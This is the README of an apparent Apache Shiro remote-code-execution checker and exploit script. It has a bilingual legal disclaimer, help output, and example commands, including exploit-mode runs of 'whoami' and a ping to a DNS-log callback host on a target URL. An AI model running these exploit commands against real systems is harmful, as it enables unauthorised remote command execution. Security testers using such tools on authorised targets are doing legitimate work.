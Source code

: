 # ShiroRceTool
Simple checker and exploit for Shiro RCE. (一个简单的Shiro RCE检测和利用脚本。)

![](img/img1.png)

## 声明 WARNING
* 仅供安全人员验证,测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)  and local laws.

## 使用方法 Usage

```bash
# USE PYTHON3
$python ShiroRceTool.py -h
 ____  _     _           ____         _____           _     
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|
                        
                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  exploit or check
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo Command.
```

## 示例 Example

```
# Check
python ShiroRceTool.py -m check -u "http://example.com"
# Exec cmd with echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
# Exec cmd with no echo
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```

